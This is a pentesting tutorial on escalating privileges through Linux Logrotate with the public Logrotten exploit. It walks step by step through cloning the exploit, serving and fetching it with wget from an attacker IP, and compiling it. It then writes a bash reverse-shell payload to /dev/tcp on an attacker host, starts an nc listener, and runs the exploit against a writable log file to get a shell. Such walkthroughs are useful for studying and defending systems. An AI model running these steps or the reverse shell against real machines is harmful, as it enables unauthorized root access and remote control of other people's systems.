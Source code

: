 ### **Understanding Logrotate**

Logrotate is a Linux utility designed to manage log files, automating tasks like rotating, compressing, and removing old logs to prevent them from consuming excessive disk space. It's typically scheduled via cron jobs and configured through files like `/etc/logrotate.conf` and service-specific configurations in `/etc/logrotate.d/`,When assessing Logrotate for potential exploits, start by identifying configurations that could be exploited:

- **Writable log files**: Check if you have write access to log files managed by Logrotate. If so, this is a strong indicator of potential exploitability.
- **Suid permissions**: Investigate whether Logrotate or any associated scripts are running with elevated privileges (e.g., as root). This could allow for privilege escalation.

### **Exploiting Logrotate Using Logrotten**

1.  Certain versions of Logrotate are known to be vulnerable To check the version, use the following command:  
    `logrotate --version`  

    ![](../../../img/Linux-Environment/99.png)

    **NOTE:** vulnerable versions: `3.8.6`, `3.11.0`, `3.15.0`, `3.18.0`
    
2.  download Logrotten from the GitHub repository.  
    `git clone https://github.com/whotwagner/logrotten.git`  
    
    ![](../../../img/Linux-Environment/100.png)

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  download and compiling the Logrotten exploit:
    
    ```bash
    wget http://[IP-ADRESS]:80/logrotten.c
    gcc logrotten.c -o logrotten
    ```
    
    ![](../../../img/Linux-Environment/101.png)
    
4.  Create a payload that Logrotate will execute. A common example is a bash reverse shell:  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/9001 0>&1' > payload`
    
5.  Set up a listener on your attacking machine, to catch the reverse shell:  
    `nc -nlvp 9001`
    
6.  Execute the exploit with the prepared payload:  
    `./logrotten -p ./payload /home/backups/access.log`  
    **NOTE:** Once Logrotate processes the payload, you should receive a shell.